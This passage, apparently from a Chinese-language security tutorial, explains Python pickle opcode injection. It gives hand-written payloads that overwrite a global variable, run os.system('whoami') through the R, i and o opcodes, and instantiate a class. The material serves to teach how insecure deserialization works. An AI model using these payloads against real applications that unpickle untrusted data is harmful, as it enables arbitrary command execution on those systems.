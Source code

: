 首先，通过 `c` 获取全局变量 `secret` ，然后建立一个字典，并使用 `b` 对secret进行属性设置，使用到的payload：

```
opcode='''c__main__
secret
(S'name'
S'1'
db.'''
```

#### 函数执行

与函数执行相关的opcode有三个： `R` 、 `i` 、 `o` ，所以我们可以从三个方向进行构造：

1. `R` ：

```
b'''cos
system
(S'whoami'
tR.'''
```

1. `i` ：

```
b'''(S'whoami'
ios
system
.'''
```

1. `o` ：

```
b'''(cos
system
S'whoami'
o.'''
```

#### 实例化对象

实例化对象是一种特殊的函数执行，这里简单的使用 `R` 构造一下，其他方式类似：

```
class Student:
    def __init__(self, name, age):
        self.name = name
        self.age = age

data=b'''c__main__
Student
(S'XiaoMing'
S"20"
tR.'''

a=pickle.loads(data)
print(a.name,a.age)
```
